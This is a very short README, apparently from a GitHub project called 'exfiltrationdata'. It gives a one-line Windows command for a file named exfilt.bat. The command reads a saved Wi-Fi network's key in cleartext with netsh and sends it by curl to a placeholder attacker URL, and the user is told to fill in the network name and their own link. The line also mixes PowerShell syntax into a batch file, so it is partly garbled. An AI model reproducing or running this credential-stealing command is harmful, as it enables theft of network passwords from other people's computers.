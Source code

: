 # exfiltrationdata

Change file exfilt.bat 
$wif = (netsh wlan show profile name= "<name-wifi>" key=clear | findstr Contenue*) ; curl <<http://attackerdotcom/>>?$wif 

And replace name-wifi and http link
